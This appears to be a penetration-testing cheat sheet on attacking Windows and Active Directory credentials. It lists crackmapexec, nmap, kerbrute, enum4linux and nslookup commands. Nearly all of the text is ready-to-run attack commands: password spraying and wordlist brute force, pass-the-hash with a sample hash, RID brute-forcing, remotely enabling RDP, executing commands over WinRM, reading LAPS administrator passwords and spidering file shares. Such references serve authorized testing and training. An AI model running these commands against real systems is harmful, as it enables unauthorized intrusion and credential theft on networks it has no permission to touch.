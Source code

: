 # Credentials

## **SMB**

crackmapexec smb targetip (port 135, 139 or 445)

### crackmapexec

{% code overflow="wrap" %}
```bash
crackmapexec smb <target_ip> -u <username> -p <password>
crackmapexec smb <target_ip> -u <username> -p <password> --shares
crackmapexec smb 192.168.1.1-100 <range IPs> -u <username> -p <password> --shares
crackmapexec smb <target_ip> -u userslist -p passwordlist --shares

crackmapexec smb 10.10.10.1 -u 'john' -p 'password123' --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol

# enable rdp
crackmapexec smb IP -u user -p pass -M rdp -o ACTION=enable
#spider_plus is a carackmapexec module used in the smb section to copy all files paths into a json file
crackmapexec smb <target_ip> -u <username> -p <password> -M spider_plus
#to show content 
crackmapexec smb 192.168.1.50 -d wargrey.mon -u Administrator -p h3ckt0r -x “more filepath”

crackmapexec smb 10.10.144.122 -u users -p /usr/share/wordlists/rockyou.txt --continue

```
{% endcode %}

## **LDAP**

```bash
#Testing if account exist without kerberos protocol
crackmapexec ldap 192.168.1.0/24 -u users.txt -p '' -k
#Testing credentials
crackmapexec ldap 192.168.1.0/24 -u user -p password
crackmapexec ldap 192.168.1.0/24 -u user -H A29F7623FD11550DEF0192DE9246F46B
#Identify Trust Relationships And Direction
crackmapexec ldap <ip> -u user -p pass -M enum_trusts

```

## WINRAM

{% code overflow="wrap" %}
```bash
#Identify Trust Relationships And Direction
crackmapexec ldap <ip> -u user -p pass -M enum_trusts
#Password spraying (without brute force)
crackmapexec winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce

#Testing credentials
crackmapexec winrm 192.168.1.0/24 -u user -p password

#If the SMB port is closed you can also use the flag -d DOMAIN to avoid an SMB connection
crackmapexec winrm 192.168.1.0/24 -u user -p password -d DOMAIN
#Execute Command using WinRM
crackmapexec winrm 192.168.255.131 -u user -p 'password' -X whoami
#if we meet server 2012 or less, maybe the server has a local administrator with the password you can use  --laps refer to  local administrator password solution
crackmapexec winrm <ip> -u user-can-read-laps -p pass --laps
```
{% endcode %}

### Nmap&#x20;

{% code overflow="wrap" %}
```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>
```
{% endcode %}

{% hint style="info" %}
if we don't join in Domain >> use nslookup
{% endhint %}

### nslookup

{% code overflow="wrap" %}
```bash
nslookup <ip you want> <ip DNS>
#we can use this script to extract data as Like Name (computer name or Client) and (ip)
for /L %i in (1,1,255) do @nslookup 192.168.1.%i <ip DNS> 2>null | find "Name" && echo 192.168.1.%i
```
{% endcode %}

### enum4linux

```bash
enum4linux -a -u "user" -p "password" <DC IP>
```

{% code overflow="wrap" %}
```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases
./kerbrute_linux_amd64 -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>

```
{% endcode %}

### smbmap

### Find Domain Controller IP

```bash
nslookup -type=SRV _ldap._tcp.dc._msdcs.deathstar.rfs
```

\
